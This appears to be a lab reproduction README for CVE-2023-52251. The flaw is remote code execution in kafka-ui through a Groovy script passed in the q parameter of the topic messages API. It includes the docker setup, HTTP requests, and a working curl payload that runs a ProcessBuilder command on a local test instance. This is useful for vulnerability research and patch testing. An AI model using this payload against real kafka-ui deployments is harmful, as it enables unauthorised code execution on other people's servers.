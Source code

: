 # Groovy Script Execution in Kafka UI (CVE-2023-52251)

## Introduction

An issue discovered in provectus kafka-ui 0.4.0 through 0.7.1 allows remote attackers to execute arbitrary code via the q parameter of /api/clusters/local/topics/{topic}/messages.

## Affect version

[kafka-ui](https://github.com/provectus/kafka-ui) < 0.7.2

## Setup && Poc

```
docker compose up -d
```

Access to `localhost:8091`, create a topic,

```http
POST /api/clusters/local/topics HTTP/1.1
Host: localhost:8091
Content-Length: 92
Content-Type: application/json

{"name":"poc","partitions":1,"configs":{"cleanup.policy":"delete","retention.bytes":"-1"}}
```

and produce a new message,

```http
POST /api/clusters/local/topics/topic/messages HTTP/1.1
Host: localhost:8091
Content-Length: 85
Content-Type: application/json

{"partition":0,"key":"123","content":"123","keySerde":"String","valueSerde":"String"}
```

Send the request below to eval groovy script

```http
GET /api/clusters/local/topics/poc/messages?q=new+ProcessBuilder%28%22touch%22%2C%22%2Ftmp%2Fsuccess%22%29.start%28%29&filterQueryType=GROOVY_SCRIPT HTTP/1.1
Host: localhost:8091
Accept: text/event-stream
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
```

or 

```bash
curl http://localhost:8091/api/clusters/local/topics/poc/messages?q=new+ProcessBuilder%28%22touch%22%2C%22%2Ftmp%2Fsuccess%22%29.start%28%29&filterQueryType=GROOVY_SCRIPT
```

check the `/tmp/success` file was created

```bash
docker container exec -it cve-2023-52251-kafka-ui-1 /bin/sh
/ $ ls /tmp
hsperfdata_kafkaui  success
```

## References

1. https://nvd.nist.gov/vuln/detail/CVE-2023-52251
2. https://securitylab.github.com/advisories/GHSL-2023-229_GHSL-2023-230_kafka-ui